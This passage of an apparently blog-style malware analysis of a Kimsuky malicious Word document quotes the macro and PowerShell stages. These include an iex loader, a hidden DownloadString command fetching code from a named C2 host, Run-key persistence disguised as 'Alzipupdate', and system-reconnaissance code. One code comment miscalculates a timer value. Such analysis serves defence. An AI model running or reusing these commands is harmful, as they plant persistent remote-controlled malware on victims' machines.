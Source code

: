 ```
End Function  
Sub executeps()  
d1 = "powershell.exe -ExecutionPolicy Bypass -noLogo $s=\[System.IO.File\]::ReadAllText('c:\\windows\\temp\\bobo.txt');iex $s"  
 With CreateObject("WScript.Shell")  
  .Run d1,0, False  
 End With  
End Sub
```

As you can see here, in the function executeps the content of **‘C:\\windows\\temp\\bobo.txt’** is read and then executed through iex . Rest of functions here are used to alter the behavior of the document after the macro is enabled which we saw earlier. We use a tool called olevba and try to find what is being written into ‘bobo.txt’ and executed using powershell.

![Oledump](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*DzslaHQvlHXMRxIfr9Mozw.png "Macro Enabling")

*olevba kimsuky.doc*

We can see the command to download and execute the Powershell script stored in the A13 macro stream which we talked about earlier. Let’s open the **flower01.ps1** script and try to learn more about the attack chain.

### Powershell Analysis
```
$SERVER\_ADDR = "[http://mybobo.mygamesonline.org/flower01/](http://mybobo.mygamesonline.org/flower01/)"  
$UP\_URI = "post.php"  
$upName = "flower01"  
$LocalID = "flower01"  
$LOG\_FILENAME = "flower01.hwp"  
$LOG\_FILEPATH = "\\flower01\\"  
$TIME\_VALUE = 1000\*60\*60 # which corresponds to 3600000 or 6 minutes  
$EXE = "rundll32.exe"  
$MyfuncName = "Run"  
$RegValueName = "Alzipupdate"  
$RegKey = "HKCU:\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run"  
$regValue = "cmd.exe /c powershell.exe -windowstyle hidden IEX (New-Object System.Net.WebClient).DownloadString('[http://mybobo.mygamesonline.org/flower01/flower01.ps1'](http://mybobo.mygamesonline.org/flower01/flower01.ps1'))"
```

We are going to be looking at the powershell script in different parts as the script is very long. Here we can see at the starting of the script some global variables are defined. From the definition of these global variables we can see various things like Persistence, URL to join, path of the files, for run payload.For persistence we can see it declares a variable called ‘RegKey’ which makes sure the script runs on startup. One thing to note to here is that the registry key is made under the name of ‘Alzip Update’ which is the software used by Kimsucky and other North Korean APT to impersonate the real software.

```
function Get\_info($logpath)  
{  
 Get-ChildItem (\[Environment\]::GetFolderPath("Recent")) >> $logpath  
 dir $env:ProgramFiles >> $logpath  
 dir "C:\\Program Files (x86)" >> $logpath  
 systeminfo >> $logpath  
 tasklist >> $logpath  
}  
function decode($encstr)  
{   
 $key = \[byte\[\]\](0,2,4,3,3,6,4,5,7,6,7,0,5,5,4,3,5,4,3,7,0,7,6,2,6,2,4,6,7,2,4,7,5,5,7,0,7,3,3,3,7,3,3,1,4,2,3,7,0,2,7,7,3,5,1,0,1,4,0,5,0,0,0,0,7,5,1,4,5,4,2,0,6,1,4,7,5,0,1,0,3,0,3,1,3,5,1,2,5,0,1,7,1,4,6,0,2,3,3,4,2,5,2,5,4,5,7,3,1,0,1,6,4,1,1,2,1,4,1,5,4,2,7,4,5,1,6,4,6,3,6,4,5,0,3,6,4,0,1,6,3,3,5,7,0,5,7,7,2,5,2,7,7,4,7,5,5,0,5,6)   
```